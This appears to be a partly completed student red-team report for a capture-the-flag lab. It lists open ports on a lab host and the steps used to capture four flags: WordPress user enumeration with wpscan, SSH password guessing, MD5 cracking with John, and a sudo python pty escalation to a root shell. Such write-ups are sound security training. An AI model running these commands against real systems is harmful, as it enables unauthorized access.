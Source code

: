 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... nmap 192.168.1.110
```
![nmap-scan](images/nmap-scan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services

Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - 22/tcp open ssh
  - 80/tcp open http
  - 111/tcp open rpcbind
  - 139/tcp open netbios-ssn
  - 445/tcp open microsoft-ds


 ![nmap-scan](images/nmap-scan.png)
### Exploitation
Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: ![flag1](images/Flag1.png)
    - **Exploit Used**
        - Sensitive data found on the website page
        - http://192.168.1.110/services 
  - `flag2.txt`: ![flag2](images/Flag2.png)
    - **Exploit Used**
      - wordpress enumerate
      - wpscan --url http://192.168.1.110/wordpress --enumerate u
   - `flag3.txt`: ![flag3](images/Flag3.png)
    - **Exploit Used**
        - password guessing
        - ssh michael@192.168.1.110
        - guessed his password which was michael 
  - `flag4.txt`: ![flag4](images/Flag4.png)
    - **Exploit Used**
      - Crack md5hash using John
      - then use python script to gain root access
      - ssh steven@192.168.1.110
      - sudo python -c 'import pty; pty.spawn("/bin/bash")'  
  
